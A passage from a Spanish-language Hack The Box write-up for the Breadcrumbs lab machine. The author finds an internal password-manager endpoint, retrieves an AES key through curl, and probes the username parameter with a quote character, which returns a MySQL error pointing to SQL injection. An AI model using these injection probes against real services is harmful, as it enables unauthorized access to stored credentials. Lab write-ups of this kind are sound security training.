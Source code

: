 Mostrando las cadenas de caracteres imprimibles, se puede ver una URL

```null
strings Krypter_Linux
Account: Administrator
http://passmanager.htb:1234/index.php
method=select&username=administrator&table=passwords
```

Ese puerto está abierto en la máquina víctima

```null
netstat -nat
TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING       InHost
```

Si le hago un curl, me reporta un error

```null
PS C:\Development> cmd /c curl 127.0.0.1:1234
Bad Request
```

Le añado el método que se filtraba por GET

```null
development@BREADCRUMBS C:\Development>curl "localhost:1234/index.php?method=select&username=administrator&table=passwords" 
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Se puede ver una key de AES, para desencriptar algo que desconozco, aunque como por GET le he pasado un sentencia SQL, puede que sea para una base de datos. Me voy a CyberChef para ver que valores le tengo que proporcionar

<img src="/writeups/assets/img/Breadcrumbs-htb/38.png" alt="">

Si introduzco una comilla me devuelve un error

```null
development@BREADCRUMBS C:\Development>curl "localhost:1234/index.php?method=select&username=administrator'&table=passwords"   
select<br />
<b>Fatal error</b>:  Uncaught TypeError: mysqli_fetch_all(): Argument #1 ($result) must be of type mysqli_result, bool given in C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php:18
Stack trace:
#0 C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php(18): mysqli_fetch_all(false, 1)
#1 {main}
  thrown in <b>C:\Users\Administrator\Desktop\passwordManager\htdocs\index.php</b> on line <b>18</b><br />
```
